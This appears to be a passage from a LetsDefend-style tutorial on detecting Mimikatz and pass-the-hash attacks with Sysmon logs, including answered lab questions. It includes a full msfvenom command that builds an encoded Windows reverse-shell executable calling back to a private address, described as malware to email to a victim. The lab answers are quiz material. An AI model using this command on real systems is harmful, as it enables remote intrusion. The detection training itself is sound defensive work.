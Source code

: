 **Configuration**:

![img](https://ld-images-2.s3.us-east-2.amazonaws.com/Log+Analysis+with+Sysmon/image-47.png)

Processes that call "lsass.exe" for legal activities can be excluded to achieve more effective results.

Sysmon output:

![img](https://ld-images-2.s3.us-east-2.amazonaws.com/Log+Analysis+with+Sysmon/image-48.png)

### Questions

1 - What is the username running Mimikatz on the system? (Without computer name)

> **Answer:** LetsDefend

2 - What is the MD5 value of the mimikatz.exe run?

> **Answer:** 29EFD64DD3C7FE1E2B022B7AD73A1BA5

3 - What is the full directory where Mimikatz.exe is located? 

> **Answer:** C:\Users\LetsDefend\Documents\mimikatz_trunk\x64\mimikatz.exe

4 - What is the Process ID of mimikatz.exe run on “10/4/2022 7:09:46 AM”?

> **Answer:** 6372

## Detecting Pass The Hash with Sysmon

### **Pass The Hash**

Pass the hash is an attack targeting Windows systems that allows the  attacker to connect to the target using a hash instead of using a  password.

Password hashes are available on Lsass.exe and various tools such as  Gsecdump, pwdump7, mimikatz, and Metasploit hashdump module have been  produced to obtain the hash. When these tools are run by authorized  users, the desired data is obtained.

### **3.1. Example Attack**

In order to establish the first contact with the target system,  malware is sent to the victim via e-mail or other methods. For this  attack, the malware was created with msfvenom.

![img](https://ld-images-2.s3.us-east-2.amazonaws.com/Log+Analysis+with+Sysmon/image-63.png)

(Created reverse shell with msfvenom)

**Command:** msfvenom -a x86 --platform windows -p  windows/shell/reverse_tcp lhost=192.168.2.120 lport=4343 -b '\x00' -e  x86/shikata_ga_nai -f exe -o shell.exe 



After the malware is sent to the victim, the meterpreter session is expected.

![img](https://ld-images-2.s3.us-east-2.amazonaws.com/Log+Analysis+with+Sysmon/image-62.png)
